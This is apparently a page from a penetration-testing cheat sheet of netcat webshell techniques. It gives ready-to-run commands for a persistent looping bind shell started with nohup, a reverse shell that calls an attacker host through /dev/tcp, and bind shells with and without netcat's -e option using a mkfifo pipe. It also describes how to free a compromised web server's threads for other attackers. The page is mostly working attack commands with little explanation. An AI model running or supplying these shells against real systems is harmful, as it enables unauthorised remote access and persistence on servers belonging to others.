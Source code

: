 Disclamer: Trying this in a browser will just freeze the shell. The browser also modifies the key codes. It only works in a VM







## Friendly Webshell

As long as your nc is connected, you block a thread of the web server.
Depending on the configuration of the server, it can have 6, 16, 32 threads... This means as many nc in parallel before saturation.
To free the server for friends:
In the connected nc, choose a second port and launch a second netcat bindshell in the background:```
binshell: 
nohup bash -c 'while true; do nc -e /bin/bash -lvp 4445; done;' &

reverse shell: 
nohup bash -c 'bash -i >& /dev/tcp/IPKALI/4444 0>&1' &
```

The nohup command will detach the nc process from the current shell.
Do a Ctrl-C to cut the nc connection, the page with your webshell will be freed. Another user can connect.
Launch a new nc to connect to this new bindshell.



<!--- category: Webshell --->
<!--- id: ncbind --->
<!--- title: Netcat - Bind shell --->
<!--- keywords:  --->
## Netcat - Bind shell

A bind shell is useful when our host is behind a NAT.
This shell is fragile, a port scan will trigger it and close it.
Launch a shell, open a listening TCP socket on port 4444, and give access to the shell to the first one who connects.
```
nc -e /bin/sh -lvp 4444
```

Connect to the nc on the target and get the shell:
```
nc iptarget 4444
```




<!--- category: Webshell --->
<!--- id: ncbindnoe --->
<!--- title: Netcat - Bind Shell (without -e option) --->
<!--- keywords:  --->
## Netcat - Bind Shell (without -e option)

Launch a bind shell on the target host
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash 2>&1|nc -lp 4444 >/tmp/f
```

Then connect to it
```
nc victim 4444
```
```